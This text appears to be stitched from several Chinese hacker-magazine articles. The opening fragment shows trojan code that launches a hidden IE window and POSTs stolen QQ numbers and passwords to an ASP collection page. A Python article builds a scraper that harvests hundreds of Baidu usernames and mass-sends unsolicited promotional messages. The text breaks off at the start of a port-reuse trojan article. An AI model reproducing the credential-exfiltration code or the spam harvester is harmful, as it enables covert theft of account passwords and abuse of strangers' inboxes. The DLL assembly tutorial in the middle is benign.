ShellExecute(0, NULL, iepath, postpath, NULL, SW_HIDE);
```

这样写还有个好处就是利用了 IE，提高了木马的穿墙性，大家不妨试试。当然上面的某些具体数据可能需要改变。

本文的主要目的还在于介绍点 HTTP 协议相关的知识和提高大家的网络编程能力。要知道 POST 方式提交数据的作用远不止于实现 ASP 网站收信。还记得利用上传类漏洞入侵网站的时候，大家常常利用 NC 提交 ASP 木马吗？其实那就是利用 HTTP 的 POST 请求提交数据。

言归正传，在 WWW 客户端及服务器上运行的是 HTTP 协议，即超文本传输协议，它采用了请求/响应模型……它们的交互过程如图1所示。

客户端向服务器发送一个请求，服务器以一个状态行作为响应……对于 HTTP 请求消息常见的有两种：GET 方法和 POST 方法。本文利用的是 POST 方法，典型的 POST 方法的 HTTP 请求头如下：

```http
POST http://www.example.com/pass.asp HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Host: www.example.com
Content-Length: 34

QQNumber=1234567&PassWord=asdfgh
```

根据上面的知识，我们可以看出第一行指明了 POST 方法、接受 POST 的文件以及协议版本……`Content-Length` 指明了 POST 数据的大小。

下面就用 C 语言实现这个程序，`InitSocket()` 和 `Name2Inet(char* szAddress)` 这两个函数分别实现初始化 Socket 版本和将 IP 地址或域名转化成网络地址。

```c
// 以下代码节选
char* url="127.0.0.1";
postlen = (strlen(argv[1]) + strlen(argv[2]) + 19);
sprintf(buff, "POST http://%s/pass.asp HTTP/1.1\r\n"
"Content-Type: application/x-www-form-urlencoded\r\n"
"Host: %s\r\n"
"Content-Length: %d\r\n\r\n"
"QQNumber=%s&PassWord=%s\r\n", ...);
InitSocket();
sock = socket(AF_INET, SOCK_STREAM, 0);
connect(sock, (LPSOCKADDR)&addr, sizeof(addr));
send(sock, buff, strlen(buff), 0);
```

具体可以看本文所附源代码和 `pass.asp` 文件，编译以后得到程序 `post.exe`，使用方式是“post QQNum Pass”。希望本文对大家实现 ASP 网站收信功能、理解 HTTP 协议以及提高网络编程有所帮助。

适合读者：汇编爱好者

前置知识：汇编基础知识

#### 动态链接库的编写与应用

文/图 柯永强 / HS

现在“漏洞 + 木马 + 蠕虫”的网络威胁模式已经流行起来了。熟练分析这样的威胁模式，要求安全研究者具有扎实的系统底层、网络与汇编基础。因此，为了让初学的朋友们有个好的开头，从本期开始，我将以系列教程的形式和大家一起进行 Win32 汇编实战。这里，我只是结合自己的体会，作一些提炼和总结，希望能和大家一起进步。

本文中，我将结合介绍 MASM 与网络编程基础知识，进行动态链接库及相应的调用程序编写。

##### Win32 汇编基础回顾

谈到 Win32 汇编，基础教程大家可参考相关教材《Win32汇编语言程序设计教程》，基本语法、编译环境等书中都有比较详细的讲解。这里，我简单回顾一下值得注意的几点，以后的文章中就不再重复了。

- **Win32ASM 编译器**：常用有 Borland 的 Tasm5.0 和 Microsoft 的 Masm6.11 以上版本，一般选用 Microsoft Masm 版本。
- **环境变量设置**：在系统环境变量中设置 include、lib、path 等。
- **编译和链接**：汇编文件编译生成 obj，资源文件编译生成 res，然后使用 Link 进行链接。
- **include 和 includelib 的使用**：根据 API 所在 DLL 引入对应 inc 与 lib（如 kernel32、user32 等）。
- **数据段、代码段和注释**：未初始化数据定义在 `.data?`，已初始化数据在 `.data`，代码在 `.code`，注释使用 `;`。
- **命令行参数的提取**：若 exe 带命令行参数，可通过 API 函数 `GetCommandLine` 获取。

```text
include = D:\masm611\include
lib = D:\masm611\lib
path = D:\masm611\bin
```

回顾了基础知识以后，推荐使用 NewAsm.exe 作为汇编程序开发工具。该工具集成了 EditPlus 与 Masm，提供较方便的编译环境，如图1所示。此外还提供了使用 SoftIce 进行源码调试的功能。

图1

##### 含网络功能的 DLL 编写

其实在 Win32 汇编环境下的 DLL 编写并不复杂。打开 EditPlus，选择“文件 -> 新建 -> ASM-DLL”，便建立了 DLL 编写环境，同时相关的编译、链接选项也已经设定，不需要再手工操作。

每个 DLL 都会有一个入口函数 LibMain，名字可以自定义，但编写 DLL 的汇编代码必须以 `End LibMain` 语句结束。若不是在 DLL 初始化时就增加功能，可以不考虑入口函数的实现。同时，DLL 中还可定义一些输出函数，此外还需要一个 `.def` 文件来定义 DLL 与输出函数名等信息。

本文中，我编写了一个简单的在 127.0.0.1 绑定 88 端口的输出函数 SrvListen，DLL 文件取名为 SrvDll。因此，需要定义 SrvDll.def 内容：

```asm
LIBRARY SrvDll
EXPORTS SrvListen
```

输出函数 SrvListen 实现代码如下：

```asm
; 绑定本端口，等待客户端建立连接后发送 "OK!"
SrvListen proc
invoke WSAStartup,0202h,addr wsa ; 启动 Winsock
.if eax != 0
    invoke MessageBox, NULL, addr szWSAError, addr szError1, MB_OK
    ret
.endif

invoke socket, AF_INET, SOCK_STREAM, IPPROTO_TCP ; 创建套接字
invoke WSAGetLastError
mov hSocket,eax
.if hSocket == INVALID_SOCKET
    invoke MessageBox, NULL, addr szSockError, addr szError2, MB_OK
    ret
.endif

mov addre.sin_family, AF_INET ; 协议
mov addre.sin_port, 5800h ; 端口
mov addre.sin_addr, 0100007fh
; 这里注意网络字节顺序，在本地地址绑定端口
invoke bind,hSocket, addr addre,16
invoke WSAGetLastError
.if eax == SOCKET_ERROR
    invoke MessageBox, NULL, addr szBindError, addr szError3, MB_OK
    ret
.endif

invoke listen,hSocket,5
; 应用最多并发 5 个未处理连接
mov nLen,16
invoke accept,hSocket,addr addre_cli,addr nLen
; 接收连接请求
mov hCliSocket, eax
.if hCliSocket == INVALID_SOCKET
    invoke MessageBox, NULL, addr szAcpError,addr szError4, MB_OK
    ret
.endif

; 向客户端发送 "OK!"
invoke send, hCliSocket, addr szACK, 4, 0
invoke Sleep, 2000
invoke closesocket, hSocket
invoke closesocket, hCliSocket
invoke WSACleanup
ret
SrvListen endp
```

整个代码参见 SrvDll.asm，直接编译链接生成相应的 DLL 文件。

##### 调用程序的编写

调用程序的编写，一般采用显式调用的实现方法，即 LoadLibrary 和 GetProcAddress，主要代码如下：

```asm
invoke LoadLibrary,addr szLibName
mov hDll,eax
.if hDll==NULL
    invoke MessageBox,NULL,addr szDllNotFound,addr szError5,MB_OK
    ret
.else
    invoke GetProcAddress,hDll,addr szFunName
    .if eax==NULL
        invoke MessageBox,NULL,addr szFunNotFound,addr szError6,MB_OK
    .else
        mov dwFunaddr,eax
        call eax
        invoke FreeLibrary,hDll
    .endif
.endif
```

整个代码参见 UseDll.asm，编译、链接生成可执行程序后测试成功。如果没什么特别的逻辑错误，动态链接库的编写和测试是很容易完成的。但是，如果有时候需要特别调试的话，大家就必须学会使用调试器调试汇编程序。

##### Win32 汇编程序的调试

前面说了，Win32 汇编必须借助其他调试器才能进行调试，我们往往选取功能强大的 SoftICE。调试方法如下：

- 程序调试之前，先开启 SoftICE。
- 对于一般的汇编程序而言，在需要调试的那段代码前面加上诸如 `k1:jmp k1`（相应的机器码为 EB FE）这样的死循环指令，直接运行后将被 SoftICE 拦截下来。
- 使用 `code on`、`set font`、`lines` 等命令调整 SoftICE 调试环境，然后输入 `E EIP 90 90` 命令去掉死循环。
- 通过 F10 和 F8 进行单步调试，注意观察内存、寄存器中数值的变化，这和 VC 中调试程序区别不大。
- 调试过程中，可以在自己认为很可能出错的地方通过 F9 设置断点，或者在源代码中加入 GetLastError 函数，SoftICE 中观察其调用后的返回值，进而对比查找相应错误。

由于暂时没有装虚拟机系统，我这里就不给大家演示实际的调试过程了，在以后的文章中有机会补上。此外，集成开发工具 NewAsm.exe 在杂志附带的光盘中。

##### 小结

本文中，我和大家一起简单回顾了 Win32 汇编的一些基础知识，并为大家提供了集成开发工具 NewAsm.exe，这些知识和工具在以后的学习中，对于我们解决困难是很有帮助的。同时，我们还讨论了如何使用 Win32 汇编编写 DLL 文件，以及如何使用 SoftICE 调试汇编代码等，希望对初学的朋友有所帮助。如果大家对此文有什么想法，欢迎来黑客官方论坛提出。

Socket：我们现在可使用的搜索引擎的选择有很多，而为了能够多分得搜索市场中的一勺羹，几乎每个搜索引擎都提供了不少周边功能，其中不乏一些精品选择，比如百度空间、Google 信箱等，善用这些着实可以为我们提供不少的方便。比如下面的这篇文章，就很好地利用了百度搜索，通过简单的编程代替了以往繁琐的手工操作，大家不妨广泛利用一下，说不定还可以获得一些意外的发现呢！

适合读者：编程爱好者

前置知识：Python 语言

#### 将百度空间玩到底

文／图 hijack9


百度空间还是不错的，支持自定义 CSS，速度快，支持中文空间名，没有讨厌的广告，更重要的是除了图片空间只有 100M 以外，发布文章却似乎没有容量的限制，这就给我们带来了福音，让我们有足够的条件去创建有个性以及内容丰富的个人空间！

现在的问题是我对展示自我的个人空间没兴趣，但我想让大家在我的空间找到很多有用的东西（……一颗服务人民的心！汗……），比如展示蔡依林的信息，又或者展示一些黑客技术文章，要求也是每天都要更新。可是我很懒，让我天天自己去复制粘贴才不干呢！我想让程序自己实现，一方面去网上搜索并下载自己想要展示的信息到本地，另一方面还要将这些更新的内容自己传到百度空间里面去。那么如何实现呢？接下来我们要讨论的就是如何编写程序来控制自己的百度空间！

##### 源码分析

为了能够比较完整地控制自己的百度空间，我们需要了解百度空间的几个操作，每个操作我都是通过 WSE（WsockExpert）监听浏览器动作抓包分析获得的，浏览器无非就几个动作 GET、POST 等。现在我以账户 hijack9，密码 11111 为例，让 WSE 监听我在操作百度空间时候的数据包即可分析出各个动作，具体如下。

### 1. 登录

```
提交类型 POST
提交路径 http://passport.baidu.com/?login
提交数据 tpl=sp&tpl_reg=sp&u=http%3A%2F%2Fhi.baidu.com%2F&username=hijack9&password=11111&Submit=+%B5%C7%C2%BC+
```

返回结果：如果返回的结果当中有“立即进入我的空间”这样的字符串，就说明登录成功，否则登录失败。

这里要注意提交数据里面的 username 和 password 字段，它们就是我们要登录的账户和密码，其他字段用处不大，在提交的时候一并加上去就可以了。类似于 `%3A%2F` 这样的字符串表示该提交数据是经过了 URL 编码过的；另外，登录成功后需要通过某种方式保存 Cookie，不然在以后的操作没法实现，这个后面再说。

### 2. 发布文章

```
提交类型 POST
提交路径 http://hi.baidu.com/hijack9/commit
提交数据 ct=1&cm=1&spBlogTitle=nihao&spBlogText=HelloWorld%21&spBlogCatName=566&splsCmtAllow=1&spBlogPower=0&tj=+%B7%A2%B1%ED%C4%DC%D5%C2+
```

返回结果：如果返回的页面数据中有“发表成功”这样的字符串，就说明发布文章成功，否则失败。一般失败的结果有一个：标题或文章内容为空、标题或文章内容过长，标题不能大于 100 个字符，文章内容不能大于 40000 字符。

这里要注意提交数据中的几个参数：ct 必须为 1；cm 必须为 1；spBlogText 为文章内容；spBlogTitle 为文章标题；rte1 必须为空；spBlogCatName 为文章所属分类名，默认就是在“默认分类”里面；splsCmtAllow 为是否允许评论，0 为不允许，1 为允许；spBlogPower 为是否公开，0 为公开，1 为仅向好友开放，2 为私有；当然我们选 0；tj 必须为“发表文章”，注意两边的空格。

### 3. 发送消息

```
提交类型 POST
提交路径 http://msg.baidu.com/ms
提交数据 ct=22&cm=1&tn=bmSubmit&lu=http%3A%2F%2Fmsg.baidu.com%2Fms%3Fct%3D18%26tn%3DbmMessageList%26fn%3D15%26pn%3D0&sn=hijack9&co=hello%21&button=%B7%A2%CB%CD
```

返回结果：如果返回结果中有“失败”这样的字符串，就表示发送消息失败，否则成功。

在提交数据中，ct 必须为 22；cm 必须为 1；tn 必须为“bmSubmit”；lu 必须为 `http://msg.baidu.com/ms?ct=18&tn=bmMessageList&rn=15&pn=0`；sn 为 hijack9，sn 表示你要发消息的对方的账户名，这里我给自己发消息；co 为你要发的消息内容；button 必须为“发送”。

### 4. 删除指定文章

```
提交类型 POST
提交路径 http://hi.baidu.com/hijack9/commit
提交数据 ct=1&cm=3&spBlogID=ac4bad01a774b061c958320&spRefURL=http%3A%2F%2Fhi.baidu.com%2Fhijack9
```

返回结果：如果返回结果中有“删除成功”的字符串，就表示删除成功，否则失败。  
在提交数据中，ct 必须为 1；cm 必须为 3；spBlogID 为要删除文章的 ID；spRefURL 表示删除文章的引用路径。为了尽可能地模拟浏览器操作，最好设为 blog 的路径，比如 `http://hi.baidu.com/hijack9/blog`。每篇文章的 ID 在文章路径中有显示，可以通过字符串处理来获取。

### 5. 添加分类

提交类型 POST  
提交路径 `http://hi.baidu.com/hijack9/commit`  
提交数据 `ct=2&cm=1&spBlogCatName=life&tj=+%CC%ED%BC%D3+&spRefURL=http%3A%2F%2Fhi.baidu.com%2Fhijack9%2Fmodify%2Fcategory%2F0`  
返回结果：如果返回结果中有“添加分类成功”的字符串，就表示添加分类成功，否则失败。  
在提交数据中，ct 必须为 2；cm 必须为 1；spBlogCatName 为要添加分类的名字；tj 必须为“ 添加 ”（注意两边空格）；spRefURL 为引用路径，建议为 `http://hi.baidu.com/hijack9/modify/category/0`。

### 6. 删除分类

提交类型 POST  
提交路径 `http://hi.baidu.com/hijack9/commit`  
提交数据 `ct=2&cm=3&spBlogCatName=Life&spRefURL=http%3A%2F%2Fhi.baidu.com%2Fhijack9%2Fmodify%2Fcategory%2F0`  
返回结果：如果返回结果中有“分类删除成功”的字符串，就表示删除成功，否则失败。  
在提交数据中，ct 必须为 2；cm 必须为 3；spBlogCatName 为要删除的分类名；spRefURL 为引用路径，建议为 `http://hi.baidu.com/hijack9/modify/category/0`。

### 7. 修改指定文章

提交类型 POST  
提交路径 `http://hi.baidu.com/hijack9/commit`  
提交数据 `ct=1&cm=2&spBlogID=153b3d016a6d9c0e7aec2c40&spBlogCatName_o=%C4%AC%C8%CF%B7%D6%C0%E0&edithid=&spBlogTitle=Hello+Hacker&spBlogText=%3Cp%3EHelloWorld%3C%2Fp%3E&spBlogCatName=8u8u877&spIsCmtAllow=1&spBlogPower=0&tj=+%B1%A3%B4%E6%D0%DE%B8%C4+`  
返回结果：如果返回结果中有“修改成功”的字符串，就表示修改文章成功，否则失败。  
在提交数据中，ct 必须为 1；cm 必须为 2；spBlogID 为文章 ID；spBlogCatName_o 为文章原来的分类名；edithid 必须为空；spBlogTitle 为修改后的文章标题。

spBlogText 为修改后的文章内容；spBlogCatName 为修改后的文章所属分类名；spIsCmtAllow 为是否允许评论；spBlogPower 为是否公开。  
除了以上这些，我们还要注意：构造 HTTP 请求时，只要是 POST 类型都要添加头部 `Content-Type: application/x-www-form-urlencoded`。提交数据中类似“%B5%C7%C2%BC”这样的字符串是经过 URL 编码转换后的结果。  
为了提高客户端和服务器数据传输速度，还可在 HTTP 请求头中加入 `Accept-Encoding: gzip, deflate`，表示服务器返回的数据经过 gzip/deflate 压缩，客户端需要解压后再分析。  
登录后的 Cookie 一定要保存。认证网页会在服务端保存 session，客户端侧主要体现为 Cookie。登录百度空间后后续操作（发布文章、添加分类等）都需要同时发送 Cookie，否则操作可能失败。认证 Cookie 名为 BDUSS，值为很长的字符串。

如果只有上述操作，程序功能仍较少，因此还要增加：获取所有分类名、获取所有文章列表、提取指定文章标题/内容/分类/发布时间等。这些通常是 GET 请求，本质是下载页面到本地后做正则提取。至于修改空间配置、上传图片等功能，这里未展开，但实现思路类似。

##### 函数介绍

OK，上面分析了半天，下面开始介绍程序吧！这是用 Python 写的一个类，里面封装了控制百度空间的函数代码，类文件名为 NewHiBaidu.py，类名为 NewHiBaidu。对我们有用的主要是以下方法。

```python
1.def login(self,_username,_password).
```

这是百度空间的登录方法，def 是 Python 定义函数的方式，self 表示这是一个类中的方法，_username 为空间用户名，_password 为密码。登录成功返回 True，失败返回 False。注意后面所有方法都需要先登录才可以调用。登录的示例代码如下：

```python
import NewHiBaidu
import sys
Baidu_user='hijack9'
Baidu_pwd='111111'
myBaidu=NewHiBaidu.NewHiBaidu()
ret=myBaidu.login(Baidu_user, Baidu_pwd)
if (not ret):
    print 'Login failed in Baidu Space!!!'
    sys.exit()
else:
    print 'Login Baidu Space Successfully!!'
```

### 2. def PostArticle(self,_BlogTitle,_BlogText,_BlogCatName='默认分类',_BlogIsCmtAllow=1,_BlogPower=0)

这是发布文章的方法。_BlogTitle 为文章的标题，_BlogText 为文章的内容，这 2 个参数是必须的。后面 3 个可选参数分别为：_BlogCatName 表示发布文章所属的分类名，默认为“默认分类”；_BlogIsCmtAllow 表示是否允许评论，默认为 1；_BlogPower 表示是否公开，默认为 0。发布成功返回 True，失败返回 False。发布文章的示例代码如下，假设已经登录成功，控制对象为 myBaidu：

```python
ret=myBaidu.PostArticle('你好','今天天气不错，记入记事')
if (not ret):
    print '发布文章失败!'
    sys.exit()
else:
    print '发布文章成功啦!'
```

### 3. def sendMsg(self,_user,_message)

该方法发送消息给指定用户。_user 为要发送的对方用户名，_message 为要发送的内容，注意内容不要超过 2000 个字符。发送成功返回 True，失败返回 False。示例代码如下：

```python
ret=myBaidu.sendMsg('hijack9','Hello World!')
if (not ret):
    print '发送消息失败!'
    sys.exit()
else:
    print '发送消息成功!'
```

### 4. def DelOneArticle(self,_URL)

该方法删除一篇指定的文章。_URL 为要删除的文章路径，可以是绝对路径也可以是相对路径。删除成功返回 True；失败返回 False。示例代码如下：

```python
url='http://hi.baidu.com/hijack9/blog/item/e70cb08ff1ef10cef11363eb.html'
ret=myBaidu.DelOneArticle(url)
if (not ret):
    print '删除文章失败!'
    sys.exit()
else:
    print '删除文章成功!'
```

```python
print '删除文章失败!'
sys.exit()
else:
    print '删除成功!'
```

### 5. def AddCatagory(self,_CatagoryName):

该方法添加一个分类。_CatagoryName 为要添加的分类名字。添加成功返回 True，失败返回 False。示例代码如下：

```python
name='谈天说地'
ret=myBaidu.AddCatagory(name)
if (not ret):
    print '添加分类失败!'
else:
    print '添加分类成功!'
```

### 6. def DelCatagory(self,_CatagoryName)

该方法删除一个分类。_CatagoryName 为要删除的分类名字。删除成功返回 True，失败返回 False。示例代码如下：

```python
ret=myBaidu.DelCatagory('谈天说地')
if (not ret):
    print '删除分类失败!'
else:
    print '删除分类成功!'
```

### 7. def EditArticle(self,_BlogUrl,_BlogTitle,_BlogText,_BlogCatName=None,_BlogIsCmtAllow=1,_BlogPower=0):

该方法修改指定文章。_BlogUrl 为要修改的文章路径（绝对或相对路径）；_BlogTitle 为修改后的标题（空字符串表示不变）；_BlogText 为修改后的内容（空字符串表示不变）；_BlogCatName 为修改后的所属分类（空字符串表示不变）；_BlogIsCmtAllow 为是否允许评论；_BlogPower 为是否公开。修改成功返回 True，否则返回 False。示例代码如下：

```python
url='./hijack9/blog/item/d9c3768beafeb512c9fc7aa4.html'
ret=myBaidu.EditArticle(url,'Hello','Halo World!','谈天说地')
if (not ret):
    print '修改文章失败!'
else:
    print '修改文章成功!'
```

### 8. def GetArticleList(self):

该方法获取这个百度空间所有的文章 URL 列表。获取成功返回一个数组列表的数据结构，包含了每篇文章的相对 URL 路径，否则返回 None。这个方法很有用哦！结合后面的方法就可以很容易实现博客搬家啦！示例代码如下：

```python
myList=[]
myList=myBaidu.GetArticleList()
```

```python
if (not mylist):
    print "获取文章列表失败"
    sys.exit()
for i in mylist:
    print i  # 将文章的 URL 输出
```

```python
num -= 1   # 计数减 1
fp.close()
print 'All Done!!!'
```

## 9. `def getOneArticle(self,_URL):`

该方法获取指定文章的相关信息。运行成功时返回一个哈希数组，通过关键字获取相关文章信息，例如 `'title'`=>文章的标题，`'body'`=>文章的内容，`'time'`=>发布时间，`'category'`=>所属分类名，`'URL'`=>文章的 URL 路径。如果失败了，则返回 `None`。示例代码如下：

```python
mylist=[]
mylist=myBaidu.GetArticleList()
if(not mylist):sys.exit()
for i in mylist:
    myhash=myBaidu.getOneArticle(i)
    print "标题:",myhash['title']
    print "时间:",myhash['time']
    print "内容:",myhash['body']
    print "分类名:",myhash['category']
    print "URL:",myhash['URL']
```

以上代码可以获取本空间内所有文章的标题、内容、分类和时间等信息并显示出来。

##### 代码实战

说了这么多，我们还没做过实在的事儿呢！下面就通过几个例子向大家展示利用上述类和方法来做我们想做的事情！

案例一：不知道大家看过《诛仙》没有？感觉还不错，于是我想在百度空间里面将这篇文章展示出来！这篇小说的本地目录是 `E:\zhuxian`，每章都是 HTML 文件，我们将前 30 章传到百度空间里。注意将 `NewHiBaidu.py` 文件和下面的代码文件放在同目录下。具体的代码如下：

```python
import NewHiBaidu  # 导入百度空间控制类
import re          # 导入正则表达式类
import sys
Baidu_User='hijack9'   # 用户名
Baidu_Pwd='11111'      # 密码
zhuxian_path='E:\\zhuxian\\'  # 本地目录
myBaidu=NewHiBaidu.NewHiBaidu()  # 创建对象
ret=myBaidu.login(Baidu_User,Baidu_Pwd)  # 登录
if (not ret):
    print "Login Failed!"
    sys.exit()
myBaidu.AddCatagory('诛仙')
num=30
while(num>0):
    file_path=zhuxian_path+str(num)+'.html'
    fp=open(file_path,'r')
    p=re.search(...,fp.read())
    if (not p):sys.exit()
    content=p.groups()[0]
    myBaidu.PostArticle('诛仙['+str(num)+']章',content,'诛仙')
```

如图 1 所示为执行该程序后我的百度空间中的显示结果，的确上传成功啦！


图 1

案例二：呵呵，拿黑防试试！（修了 WTF 充满杀气的眼神……）黑防网站每天都会更新“黑客文章”栏目的文章，我想将这些文章在空间里面展示出来，让更多人看，而且要求可以随时更新。注册了一个百度空间 `http://hi.baidu.com/黑客防线`。代码有点长，这里不贴啦！附件里面 `code/case2` 目录下有 3 个文件：`NewHiBaidu.py`、`HackDefense.py`、`HackerInBaidu.py`。程序执行后，百度空间的显示如图 2 所示。


图 2

本文上面描述的都是如何控制百度空间，那么如何获取到自己感兴趣的内容呢？我想这跟你的目的有关：你想建立一个什么样的空间，提供什么信息和内容，从哪里获取这些信息最方便最简单。比如上述案例一我从本地获取信息；案例二我从黑防网站上面搜索文章。无论是哪种方式，都需要通过正则表达式提取自己需要的内容。

事实上只要大家有想象力，我们还可以做其他更有意思的事情！当然，这里所有的代码都是用 Python 写的，大家需要首先了解它！相信聪明的你在 1 个小时内就可以掌握 Python 的语法结构，因为 Python 实在太简单！作为简单而又强大的语言，你怎能不动心？

#### 百度搜索，你是我的红娘

文／图 hijack9


别误会，我可不是通过百度搜索找到了自己的真爱，怎么说我还是个单纯的小男生呢？（一群人狂晕！！）不过我明白所谓红娘是充当穿针引线的作用，也就是中介作用。我想百度搜索在本次应用中未尝不是个这样的角色！

在《将百度空间玩到底》这篇文章中，大家了解了如何利用 NewHiBaidu 类建立自己的内容丰富的空间，问题是空间建立好了总得宣传吧！你想通过别人的空间写文字留言的方式来提高访问量？别逗了，我们建立的空间都是为人民服务的（再汗！），为了让更多的人知道我们的空间，单凭手动的方式肯定是不够的！我们下面的目的就是通过程序来宣传自己的百度空间！

还记得 NewHiBaidu 类里面有个方法叫做 sendMsg 吗？没错，通过它可以发给指定用户名一个消息，这样别人就可以看到你的消息啦！如果我向成百上千的用户发送消息，那岂不是 N 多人知道我的空间啦？因此，我们这里的目的就是向更多的人发送自己的空间宣传广告，让大家都来访问我们的空间！

问题是我们如何获取这么多的用户名呢？首先我们要明白，如果我们能够得到对方的空间地址，就可以轻易地获取对方的用户名！注意空间名和用户名不一定相同！比如黑客防线的空间地址为 `http://hi.baidu.com/黑客防线`，通过访问 `http://hi.baidu.com/黑客防线/profile` 就可以看到它的用户名为 hackerme。如图 1 所示。对于程序来说，这只不过是个正则表达式的匹配过程，非常容易！因此我们的目的就是如何获取更多的百度空间的地址！

我们有两种方式可以获取百度空间的地址，其一是从百度空间的首页。因为在首页 `http://hi.baidu.com` 里面，不仅有“今日精彩空间推荐”的栏目，还有“更新的空间”的栏目，这两个栏目里面就存在着很多空间地址；其二就是通过搜索引擎抓取百度空间的地址。打开浏览器，分别进入 Google 和百度，输入“site:hi.baidu.com”。看到的是在域 hi.baidu.com 可以搜索到的页面显示。大家试试就知道，百度能够通过该关键字搜索到的页面比 Google 多得多，不为什么，就因为百度空间就是百度的产品嘛！“site:hi.baidu.com”意思是在 hi.baidu.com 域中去搜索，后面如果再加关键字就是表明在 hi.baidu.com 去搜索指定的关键字，比如我输入“site:hi.baidu.com 黑客”，表示在域 hi.baidu.com 中搜索和“黑客”有关的关键字！

我们选择后者为我们需要的方式，原因在后面就知道了！因为百度能够搜索到的页面比 Google 多，我们也不例外地选择百度搜索，这也是为什么百度搜索能成为我的红娘的原因啦！

首先我们需要进行分析。在百度搜索栏输入关键字 site:hi.baidu.com 后，页面会显示出内容列表，我们将分析并提取每个页面中的合适链接，然后模拟浏览器点击下一页去分析下一个页面直到最后。比如我输入的是“site:hi.baidu.com”，页面首先显示的当前 10 个符合条件的链接地址以及内容描述，而下一页的链接地址为：`http://www.baidu.com/s?lm=0&si=&rn=10&ie=gb2312&ct=0&wd=site%3Ahi%2Ebaidu%2Ecom&pn=10&cl=3`，虽然其他的参数含义不明白，但 wd 肯定是关键字，而 pn 就是页面指针，第 2 页为 10，第 3 页为 20，依次类推。当 pn 的数字大于可以搜索到的最大页面时，百度显示的依然是最后一页！当然，搜索的首页 pn=0。注意关键字是经过了 URL 编码的。

我们依然选择 Python 为我们网络编程的首选语言，如果你选择 C 来编写，我将佩服你的耐力和信心，以下描述的代码我只花了半个小时去编写以及 2 个小时的测试和修改，如果用 C 来实现相同的功能，或许要一天来处理吧！如果只是为了达到你的目的，建议使用快速开发语言，那可以使得你的效率很高！

废话不多说，编写一个类文件 SpreadMsg.py，里面包含了 2 个类。

第一个类为 fetchSpace。该类是通过关键字让百度去搜索，然后进行字符串处理提取合适的百度空间的 URL 地址，进而分析出空间名。该类提供 3 个公共方法：

- `def setWord(self,_w)`：设置搜索关键字（在 `site:hi.baidu.com` 范围内搜索）。
- `def start(self,_count=65535)`：设置抓取页面数量并开始抓取过程。
- `def getSpaceList(self)`：返回抓取到的空间名数组（去重），用于后续操作。

第二个类为 `SendBaiduMsg`，里面实现了两个方法：

- `def login(self,_username,_password)`：调用登录方法登录百度空间，成功返回 `True`，失败返回 `False`。
- `def send(self,_blogname,_message)`：根据空间名获取用户名并发送消息，成功返回 `True`，失败返回 `False`。

下面我给大家一个例子：

```python
import SpreadMsg  # 导入 SpreadMsg 类文件
import sys
mySender=SpreadMsg.SendBaiduMsg('hijack9','11111')
ret=mySender.send('黑客防线','Hello HackerDefence')
if (not ret):
    print "Send Message Failed!"
    sys.exit()
else:
    print "Send Message Successfully!"
```

很多东西只有试一下才能明白它的好处和坏处！因此下面我将使用上述两个类来实现我们的目的。另外，我考虑到对方应该也是个对黑客技术感兴趣的人，至少不排斥，所以我设置关键字为“黑客”。具体代码如下：

```python
# -*- coding: gb2312 -*-
import SpreadMsg
import sys
Baidu_user='hackerme'
Baidu_pwd='11111'
send_msg='Hi, 交个朋友多交流啊！我的空间 http://hi.baidu.com/黑客防线 ...'
```

```python
# 省略前面的消息内容定义...
mySpread=SpreadMsg.fetchSpace()
mySpread.setWord('黑客')
print 'Start to fetch space name,it will spent some time.'
mySpread.start()
myList=[]
try:
    myList=mySpread.getSpaceList()
    mySend=SpreadMsg.SendBaiduMsg()
    ret=mySend.login(Baidu_user,Baidu_pwd)
    if (not ret):
        print "Login to Baidu Space Failed!"
        sys.exit()
    else:
        print "Login to Baidu Space Successfully!"
    for i in myList:
        ret=mySend.send(i,send_msg)
        if (not ret):
            print "Send Message to",i,"Failed!"
        else:
            print "Send Message to",i,"Successfully!"
except:
    print "Something Failed!"
print "Done!"
print "The number of Spaces is",len(myList)
```

程序执行的结果如图 2 所示，因为这里没有使用多线程，所以可能速度有点慢，像这样的过程最好是放在你睡觉的时候后台运行！从最后的结果中我们可以看出一共搜索到 417 个空间名，而这还是我很保守地以“黑客”为关键字的结果；如果你设置其他关键字，比如 `hacker`、技术、攻击等，那不知道还可以获取多少个空间名呢！


现在回头分析我们之前提出的问题，为什么我没有在百度空间的首页上去抓取现成的空间名而费力先去百度搜索一下，然后再进行正则表达式的匹配进而获取空间名呢？因为百度空间上面的空间名有限，充其量也就 200 多个，如图 3 所示只有 208 个精彩空间，而我们仅搜索关键字“黑客”就可以获取 400 多的空间名，哪个更划算更有效这个是不言而喻的！况且真正费时间是在发送消息的阶段，所以前面获取空间名的时间完全可以忽略！


图 3

还有一点我们需要注意，通过搜索不同的关键字可能也会获得相同的空间名，如果你不假思索地向同一个人发送 2 条以上相同的消息，别人不把你当病毒看才怪！

搞宣传也要搞得有艺术嘛！因此实际应用中，最好将已经搜索到的空间名列表保存在本地，下次搜索的时候就可以对比是否重复了。当然，如果你愿意的话，还可以加入多线程提高发送消息的速度！

我相信，如果能够结合之前描述的 NewHiBaidu.py 和本文中的 SpreadMsg.py 两个类文件，再根据自己的需要写几行代码，绝对可以建立一个内容相当丰富的百度空间，并且通过上面程序的宣传带来很大的访问量！以我建立的空间 `http://hi.baidu.com/黑客防线` 为例，通过网上去搜索相关的黑客技术文章，目前已经上传了 4658 篇，且现在的日访问量已经超过 1000 了，经过昨晚上面那个程序的运行，已经有很多人回了消息，并且在空间上留下了评论，看来宣传还是有效果的！

文章写到这，忽然发现其实发送消息宣传自己空间的过程已经并不重要了，反而通过搜索引擎来搜索自己在意的信息，再通过程序进一步分析从而提取真正我需要的内容，这才是有意思的地方。既然我可以用百度来搜索，那么我也可以用 Google！而世界上不止一个搜索引擎，如果将所有搜索引擎结合一起去搜索同一个我感兴趣的信息，结果一定很精彩！

适合读者：编程爱好者、入侵爱好者

前置知识：VC 语言

#### VC 实现端口复用木马


文/图 雪山 [SIS]

不知大家是否还记得我发表的《编程打造 cmdshell 客户端》这篇文章？那篇文章主要是讲一个命令行下网络通信的模型，我起初是为编写自己的端口复用木马服务的，下面我就把这个不影响原服务的端口复用木马继续完成吧！

其实想实现端口复用很容易，在创建了一个 Socket 之后，用 setsockopt 设置 Socket 的 SO_REUSEADDR 属性就可以了。当然，要防止别人复用你的端口也很简单，用 setsockopt 指定 SO_EXCLUSIVEADDRUSE 就可以独占端口地址了。

